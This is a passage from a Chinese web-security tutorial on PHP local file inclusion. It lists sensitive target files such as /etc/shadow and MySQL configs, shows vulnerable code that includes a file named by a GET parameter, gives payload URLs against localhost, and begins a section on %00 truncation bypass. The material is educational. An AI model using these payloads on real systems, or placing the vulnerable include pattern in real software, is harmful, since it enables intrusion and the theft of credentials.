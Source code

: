 ### Linux/Unix

```
/etc/passwd  账户信息
/etc/shadow  账户密码文件
/etc/httpd/conf/httpd.conf  Apache配置文件
/etc/my.conf  mysql 配置文件
/usr/local/app/apache2/conf/httpd.conf  Apache2默认配置文件
/usr/local/app/apache2/conf/extra/httpd-vhost.conf     虚拟网站配置
/usr/local/app/php5/lib/php.ini  PHP相关配置
```

## 无限制本地文件包含漏洞示例:

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```
利用漏洞读取Mysql配置信息

### Payload:

```
http://127.0.0.1/test.php?filename=C:\phpStudy\PHPTutorial\MySQL\my.ini
```

利用无限制本地包含漏洞执行代码

```
http://127.0.0.1/test.php?filename=xiaohua.txt
```

# 三、有限制本地文件包含漏洞

有限制本地文件包含漏洞是指代码中为包含文件制定了特定的前缀或者.php、.html等扩展名，攻击者需要绕过前缀或者扩展名过滤，才能利用文件包含漏洞读取操作系统中的其他文件，获取敏感信息。常见的有限制本地文件包含过滤绕过的方式主要:有%00截断文件包含、路径长度截断文件包含、点号截断文件包含这三种

测试代码:

```
<?php
    $filename  = $_GET['filename'];
    include($filename,".html");
?>
```
## 1.%00截断

%00会被认为是结束符，后面的数据会被直接忽略，导致扩展名截断。攻击者可以利用这个漏洞绕过扩展名过滤

### 漏洞利用条件:
